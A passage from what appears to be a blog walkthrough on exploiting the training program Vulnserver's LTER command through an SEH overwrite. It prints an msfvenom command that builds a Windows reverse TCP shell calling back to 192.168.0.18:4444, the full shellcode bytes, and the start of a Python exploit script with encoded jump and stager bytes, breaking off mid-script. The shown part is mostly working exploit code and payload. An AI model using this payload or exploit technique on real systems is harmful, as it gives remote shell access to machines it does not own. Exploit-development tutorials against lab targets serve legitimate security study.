 And check it:

<div class="imgblock">

![Stager success](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331206/blog/vulnserver-lter-seh/stager2_wzgle8.gif)

</div>

Weeeh\! Now to finish, we can create our shellcode and insert it on our
side channel created by the stager. As we now control the `recv()` call,
we are not limited by the bad chars\! Let’s do that:

``` console
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=none -f python -v SHELL
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of python file: 1660 bytes
SHELL =  b""
SHELL += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
SHELL += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
SHELL += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
SHELL += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
SHELL += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
SHELL += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
SHELL += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
SHELL += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
SHELL += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
SHELL += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
SHELL += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
SHELL += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77"
SHELL += b"\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
SHELL += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b"
SHELL += b"\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
SHELL += b"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8"
SHELL += b"\x00\x12\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56"
SHELL += b"\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c"
SHELL += b"\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5"
SHELL += b"\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
SHELL += b"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
SHELL += b"\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
SHELL += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f"
SHELL += b"\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08"
SHELL += b"\x87\x1d\x60\xff\xd5\xbb\xaa\xc5\xe2\x5d\x68\xa6"
SHELL += b"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
SHELL += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"
```

Update our exploit:

``` python
import socket
import struct
import time

HOST = '192.168.0.20'
PORT = 9999

LONG_JUMP  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x62\x21\x22\x23\x2d'
LONG_JUMP += b'\x38\x25\x2b\x28\x2d\x67\x28\x22\x24\x50\x25\x50\x50\x4a\x50\x25'
LONG_JUMP += b'\x2a\x2a\x30\x2a\x2d\x42\x7f\x29\x73\x2d\x7f\x25\x69\x2d\x2d\x56'
LONG_JUMP += b'\x2d\x7b\x5f\x50'

STAGER  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x6f\x27\x21\x2d'
STAGER += b'\x30\x37\x26\x2b\x2d\x30\x76\x21\x23\x50\x25\x50\x50\x4a\x50\x25'
```
